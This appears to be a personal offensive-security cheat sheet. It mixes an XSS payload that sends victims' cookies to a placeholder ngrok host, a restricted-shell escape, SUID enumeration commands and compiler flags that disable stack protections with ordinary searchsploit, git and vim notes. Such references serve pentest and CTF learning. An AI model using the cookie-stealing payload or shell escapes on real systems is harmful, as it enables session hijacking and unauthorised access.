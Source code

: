 ## XSS Cookie Stealing
```
<script>new Image().src='NGROK URL/c='+document.cookie</script>
```

## SEARCHSPLOIT:
searchsploit "SERVICE"
searchsploit -x "EXPLOIT PATH" *To examine the code of the exploit*
searchsploit -m "EXPLOIT PATH" *Copy the exploit to the working directory*

## Remove lines containing word alert:
```bash
^.*(alert).*$
```

## Rbash Escape:
python -c 'import os;os.system("/bin/bash")'

## Permissions
find / -type f -perm -u=s 2>/dev/null
find / -perm -u=s -type f 2>/dev/null

## Checking a PID's DLLs in Windows
tasklist /m /fi "pid eq `PID`"

## Git Shit
git log . = Check git logs from a .git/ folder
git show "COMMIT ID" = Check details of a specific commit

## Vim CHeatsheet:
"I" = Insert Mode
"O" = Insert Mode with a New Line
"ESC" = Exit Insert Mode
"x" = Remove the Character the Cursor is On
":" = Type Commands
":wq" = Exit Vim and save
":syntax on" = Set Syntax
":set numbers" = Set Numbers On
"SHIFT+G" = Get to the bottom quickly
"H,J,K,L" = Move Around Using Keyboard
"d+d" = Remove a Full Line

## GCC:
disable all protections = gcc stack-zero.c -o stack-zero -fno-stack-protector -no-pie -Wl,-z,norelro
